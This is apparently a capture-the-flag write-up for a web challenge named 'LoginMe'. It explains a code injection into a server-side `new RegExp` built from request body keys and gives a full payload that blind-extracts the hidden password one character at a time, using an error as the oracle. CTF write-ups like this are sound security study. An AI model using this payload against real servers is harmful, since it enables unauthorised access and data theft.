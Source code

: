 # LoginMe

http://202.120.7.194:8081

http://202.120.7.194:8082

http://202.120.7.194:8083

It's about inject to `new RegExp(#...#)` and `req.body[k]`


Since `password` column is generated by random string, and will re-random once server crash and restart. 
You have to extract the keys of object `this`.

```
username=bbbb
&|(if.*(").*\sreturn.*\s.*\s.*)|=$2;  this[Object.keys.call`${this}`[3]].charCodeAt`0` > 0x30 ? blah`` : 2 ; $2
```

Then blind the each character, if your condition is right, the server will throw an exception, then you got http error response 
(because of calling non-exists `blah` function)





